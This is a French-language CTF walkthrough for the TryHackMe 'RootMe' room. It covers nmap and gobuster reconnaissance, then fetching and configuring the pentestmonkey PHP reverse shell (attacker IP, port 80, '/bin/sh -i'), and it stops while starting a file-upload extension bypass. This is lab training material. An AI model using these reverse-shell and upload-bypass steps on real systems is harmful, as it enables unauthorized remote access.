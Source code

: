 # **[ROOTME](https://tryhackme.com/r/room/rrootme)**

## TACHE 1 - Deploy the machine

Suivez simplement les instructions pour déployer la machine virtuelle.

<br>

## TACHE 2 - Reconnaissance
<pre>
First, let's get information about the target.
Commençons par obtenir des informations sur la cible.
</pre>

### Question 1
<pre>
Scan the machine, how many ports are open ?
Scannez la machine, combien de ports sont ouverts ?
</pre>

### Question 2
<pre>
What version of Apache is running?
Quelle version d'Apache est active?
</pre>

### Question 3
<pre>
What service is running on port 22?
Quel service est exécuté sur le port 22?
</pre>

J'ai regroupé les trois premières questions car nous pouvons y répondre avec une seule commande:

> [!TIP]
> Question Hint
>
> Use nmap to do a port scan.
> <br>Utilisez nmap pour effectuer le scanne de port

<br>En cherchant dans le manuel de la commande `nmap`, on voit que l'option `-sV` permet de scanner les ports ouverts et d'afficher les informations relatives aux services ainsi comme leur version:

```bash
nmap -sV 10.10.182.207
```

> [!WARNING]
> Adaptez la commande à l'adresse IP de VOTRE machine virtuelle. Elle change à chaque connexion, il est donc peu probable qu'elle soit identique à la mienne au moment où j'écris ce guide.

Réponse 1: <b>x</b>
<br>Réponse 2: <b>x.x.xx</b>
<br>Réponse: <b>xxx</b>

<br>

### Question 4
<pre>
What is the hidden directory?
Quel est le repertoire caché?
</pre>

Pour répondre à cette question, utilisez l'astuce qui ne nécessite pas de réponse:

> [!TIP]
> gobuster dir -u MACHINE_IP -w WORDLIST_PATH

Remplacez `MACHINE_IP` par l'IP de votre machine virtuelle et `WORDLIST_PATH` par le chemin de l'un des wordlists, qui, pour Gobuster, se trouvent dans: `/usr/share/wordlists/dirbuster/`

Réponse: <b>/xxxxx/</b>

<br>

## TACHE 3 - Getting a Shell
<pre>
Find a form to upload and get a reverse shell, and find the flag.
Trouvez un formulaire pour télécharger et obtenir un shell inversé et trouvez le drapeau.
</pre>

> [!TIP]
> Search for "file upload bypass" and "PHP reverse shell".
> <br>Recherchez « file upload bypass » et « PHP reverse shell ».

<br>Commencez par ouvrir Firefox sur la machine distante et rentrez son IP:

<pre>
http://MACHINE_IP
</pre>

<br>Vous verrez une page d'accueil avec simplement écrit: 

<pre>
root@rootme:~#
Can you root me?
</pre>

<br>Vous ne pouvez rien faire sur la page d'accueil mais il est toujours bon de regarder ce qui se cache dans le code-source avec `CTRL+U`:

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="stylesheet" href="css/home.css">
    <script src="js/maquina_de_escrever.js"></script>
    <title>HackIT - Home</title>
</head>
<body>
    <div class="main-div">
        <p class="title">root@rootme:~#</p>
        <p class="description">
            Can you root me?
        </p>
    </div>

    <!--  -->

    <script>
        const titulo = document.querySelector('.title');
        typeWrite(titulo);
    </script>
</body>
</html>
```

Bon, je n'ai jamais dit que c'était toujours intéressant mais c'est un réflexe à avoir systématiquement. Ce code ne nous apporte rien.

<br>Rendons-nous dans le dossier caché que nous avons découvert avec Gobuster toute à l'heure:

<pre>
http://MACHINE_IP/dossier
</pre>

<br>Ah, tiens, un formulaire de téléchargement ! Comme conseillé dans l'astuce:

<pre>
Select a file to upload:
Browse... No file selected
Upload
</pre>

Nous allons donc pouvoir uploader un script, plus précisément, un script de `reverse shell en php` puisque c'est une des contraintes de l'astuce.
<br>Après quelques recherches, il semble qu'il y en ait un qui soit souvent utilisé, celui de [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell).

Rendez-vous dans le dossier de téléchargement de la machine distante et téléchargez le script:

```bash
cd Downloads
```
```bash
git clone https://github.com/pentestmonkey/php-reverse-shell
```

<br>Puis rendez-vous dans le dossier:

```bash
cd php-reverse-shell
```

<br>Il va falloir modifier l'IP et le port dans le fichier `php-reverse-shell.php`. 
<br>Editez-le avec `nano` et modifiez ces lignes comme suit:

```php
[...]

set_time_limit (0);
$VERSION = "1.0";
$ip = 'YOUR_MACHINE_IP';  // CHANGE THIS
$port = 80;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

[...]
```

Nous utilisons le serveur web de la machine distante, qui est sur le port 80.

Il faut, ensuite, rendre le fichier exécutable:

```bash
chmod +x php-reverse-shell.php
```

Vous pouvez maintenant uploader le fichier php... BIM ! Une erreur !
<br>Elle est dûe au fait que les fichiers `php` ne sont pas autorisés à être téléchargés. Aucun problème, nous allons essayer de contourner le téléchargement en modifiant l'extension du fichier.